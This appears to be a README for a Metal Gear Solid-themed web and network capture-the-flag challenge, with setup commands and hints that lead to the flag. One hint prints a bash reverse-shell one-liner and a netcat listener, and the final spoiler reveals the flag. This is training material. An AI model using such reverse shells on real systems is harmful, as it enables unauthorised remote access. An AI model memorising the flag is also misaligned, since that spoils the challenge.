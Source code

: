 # Metal Gear Solid CTF Challenge

<p align="center">
  <img style="width: 50%;" src="https://github.com/user-attachments/assets/d4d2d537-c7ff-4a13-ad0b-1d2f1ce057c9"></img>
</p>

## Difficulty rating 
![stars](https://starrating-beta.vercel.app/3/) *100 points*
\
Requires solid HTTP fundamentals, bash/netcat familiarity, header manipulation, log parsing, and basic reverse shell crafting. Also, the hints are quite vague

### **Description**
An infiltration-themed web and network CTF challenge where participants navigate a network to uncover a patriots passkey. Exploit HTTP, the shell and misconfigured requests to retrieve hints and find the flag.
Requires understanding of HTTP headers, web requests, log analysis, base64 encoding, reverse shells, and  TCP networking + tools like curl, nmap, and netcat.
\
\
**Catagory:**
Web Exploitation / Network Services

### **How to run**

#### Requirements
- [docker](https://www.docker.com/)  > 28.1.1
- [containerlabs](https://containerlab.dev/) > 0.68.0

In the projects root directory, run:
```
sudo containerlab deploy --topo topology.yml
```
to destroy:
```
sudo containerlab destroy --topo topology.yml
```

<br>

> [!IMPORTANT]
> the loadbalancer is exposed on port 8080. Depending on if your running this inside a VM or wsl, you may have to use the ip of that followed by :8080

> [!NOTE]
> It may take a while to load and you may recieve 503 errors for the first 20 seconds depending on your internet and pc

### Hints
<details>
<summary>Hint 1: first curls</summary>
<br>
Curl each webserver individually. Correct the typo in S3cr3t/paslyword to secret/password. Find a way to show the response headers in curl when you curl with `Accept: application/secret`
</details>

<details>
<summary>Hint 2: after you've done the web3 challenge</summary>

Combine everything together, /top/secret/password?condition=trust with  `Accept: application/secret`. This is valid on any webserver
</details>

<details>
<summary>Hint 3: once ssh'd in</summary>
<br>
find / -name "*json" 2> /dev/null. The update property has echo in its string, suggesting its executing it. Use a reverse shell and net cat to establish connectiion
</details>

<details>
<summary>Hint 3: continued</summary>
<br>
bash -i >& /dev/tcp/web3/1337 0>&1 then after saving the file: nc -lvnp 1337 
</details>

<details>
<summary>Flag:</summary>
<br>
flag{PATRIOT_PASS} 
</details>

## How to solve
This video has audio and is in 1.5x speed

https://github.com/user-attachments/assets/14aa9844-b534-4b56-a318-14a6dd87ef13



